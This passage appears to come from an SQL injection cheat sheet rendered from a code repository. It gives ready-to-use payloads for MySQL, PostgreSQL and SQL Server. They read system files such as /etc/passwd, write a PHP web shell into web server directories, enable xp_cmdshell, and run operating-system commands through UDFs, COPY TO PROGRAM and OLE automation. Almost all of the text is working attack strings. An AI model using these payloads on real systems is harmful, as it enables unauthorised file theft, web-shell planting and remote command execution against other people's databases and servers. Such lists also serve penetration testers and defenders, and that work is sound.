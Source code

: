#### Reading Files
```sql
-- MySQL
1 UNION SELECT LOAD_FILE('/etc/passwd'),null--
1 UNION SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts'),null--

-- PostgreSQL (requires superuser)
1 UNION SELECT pg_read_file('/etc/passwd'),null--

-- SQL Server
1 UNION SELECT * FROM OPENROWSET(BULK '/etc/passwd', SINGLE_CLOB) AS x--
```

#### Writing Files
```sql
-- MySQL (requires FILE privilege)
1 UNION SELECT '<?php system($_GET["cmd"]); ?>',null INTO OUTFILE '/var/www/html/shell.php'--

-- PostgreSQL
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';

-- SQL Server
1; EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php'--
```

### 4. 💻 Command Execution

#### MySQL Command Execution
```sql
-- User Defined Functions (UDF)
1; CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so'--
1; SELECT sys_exec('whoami')--

-- Into outfile method
1 UNION SELECT '<?php system($_GET["cmd"]); ?>',null INTO OUTFILE '/var/www/html/cmd.php'--
```

#### PostgreSQL Command Execution
```sql
-- Copy program method
1; COPY (SELECT '') TO PROGRAM 'whoami'--

-- Large object method
1; SELECT lo_import('/etc/passwd', 1337)--
1; SELECT lo_export(1337, '/tmp/passwd')--
```

#### SQL Server Command Execution
```sql
-- xp_cmdshell (requires sysadmin)
1; EXEC xp_cmdshell 'whoami'--

-- Enable xp_cmdshell if disabled
1; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
1; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--

-- OLE automation
1; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT--
1; EXEC sp_OAMethod @shell, 'run', null, 'cmd.exe /c whoami'--
```
